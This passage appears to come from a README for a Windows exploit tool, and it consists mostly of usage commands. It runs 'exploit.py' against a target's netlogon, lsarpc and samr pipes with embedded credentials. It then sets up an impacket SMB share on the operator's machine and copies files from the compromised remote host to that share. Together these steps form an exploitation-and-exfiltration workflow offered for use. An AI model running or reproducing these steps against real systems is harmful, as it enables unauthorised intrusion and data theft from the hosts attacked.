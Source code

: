     ```sh

    ...
    username = "username"
    password = "password"
    ...

    ```

5. **Run the script**

    ```sh
    python exploit.py <target-ip> netlogon
    python exploit.py <target-ip> lsarpc
    python exploit.py <target-ip> samr
    ```

<br />

## Launch SMB Server

```bash
impacket-smbserver share . -smb2support -username user -password pass
```

### Access from Remote Machine

```bash
net use \\<local-ip>\share /u:user pass
```

### Transfer Files

```bash
# Remote to Local
cp .\example.txt \\<local-ip>\share\example.txt
```
